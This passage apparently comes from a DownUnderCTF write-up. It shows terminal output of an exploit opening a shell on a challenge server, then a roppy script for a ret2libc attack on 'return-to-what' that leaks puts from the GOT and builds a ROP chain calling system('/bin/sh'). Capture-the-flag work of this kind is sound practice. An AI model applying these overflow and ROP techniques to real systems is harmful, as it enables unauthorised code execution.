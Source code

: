 Running the exploit:-


```r
1 [01:01:26] vagrant@oracle(oracle) DUCTF> python3 shellthis.py 
[+] Opening connection to chal.duc.tf on port 30002: Done
[*] Analyzing /home/vagrant/CTFs/DUCTF/shellthis
[*] Switching to interactive mode
$ cat flag.txt
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
$ 
[*] Interrupted
[*] Closed connection to chal.duc.tf port 30002
```

# return-to-what

This was also a simple ret2libc attack with the remote system being Ubuntu 18.04 which means there's a stack aligment issue, finding the offset was easy. since binary had `NO PIE` we can leak the GOT address of the `puts` then calculate the LIBC's base address and then write a ROP chain which do `system("/bin/sh")`.


```py
from roppy import *
p = remote("chal.duc.tf", 30003)

context.arch = "amd64"
elf = ELF("return-to-what")
libc = ELF("libc6_2.27-3ubuntu1_amd64.so")


pop_rdi = 0x000000000040122b


payload = b"A"*56

# Leak puts by doing `puts(puts@got)`

payload += p64(pop_rdi)
payload += p64(elf.got("puts"))
payload += p64(elf.plt("puts")) 

# Calling vuln again

payload += p64(elf.function("vuln")) 

p.sendlineafter("?\n", payload)

# Recieving the leaked address and parsing it

leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("LEAK:   0x%x" %(leak))

libc.address = leak - libc.function("puts")

payload = b"A"*56

# Calling the `system("/bin/sh")`
payload += p64(0x0000000000401016) # ret;
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh\x00"))
payload += p64(libc.function('system'))


```
